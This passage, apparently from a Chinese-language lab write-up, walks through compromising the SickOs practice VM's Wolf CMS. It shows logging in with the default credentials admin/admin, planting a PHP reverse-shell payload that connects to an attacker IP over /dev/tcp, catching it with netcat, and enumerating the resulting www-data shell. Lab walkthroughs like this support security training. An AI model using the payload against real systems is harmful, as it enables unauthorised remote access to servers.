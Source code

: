 -   提示此处有一个`/wolfcms`文件
-   ![image-20230517161150225](https://raw.githubusercontent.com/r0o983/images/main/image-20230517161150225.png)

### 查找后台

-   通过`google exploit-db` 搜索当前cms的版本和利用方式 [点我查看详情](https://www.exploit-db.com/exploits/38000)
-   ![image-20230517162115861](https://raw.githubusercontent.com/r0o983/images/main/image-20230517162115861.png)

-   测试弱密码：`admin` and `admin` 
-   ![image-20230517163312574](https://raw.githubusercontent.com/r0o983/images/main/image-20230517163312574.png)
-   写入反弹`shell`到目标主机中（任意可写有执行权限的文件即可）`<?php exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.2.128/443 0>&1'")>; ?>`
-   在kali中发起监听`nc -nvlp 443`

```shell
# 拿到回弹shell
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.2.128] from (UNKNOWN) [192.168.2.130] 41340
whoami
www-data
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@SickOs:/var/www/wolfcms$ whoami
whoami
www-data
www-data@SickOs:/var/www/wolfcms$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:0c:29:72:6d:18 brd ff:ff:ff:ff:ff:ff
    inet 192.168.2.130/24 brd 192.168.2.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:fe72:6d18/64 scope link 
       valid_lft forever preferred_lft forever
www-data@SickOs:/var/www/wolfcms$ ls  
ls                                                                                                   
CONTRIBUTING.md  composer.json  docs         index.php  robots.txt                                   
README.md        config.php     favicon.ico  public     wolf                                         
www-data@SickOs:/var/www/wolfcms$                                                                    

```
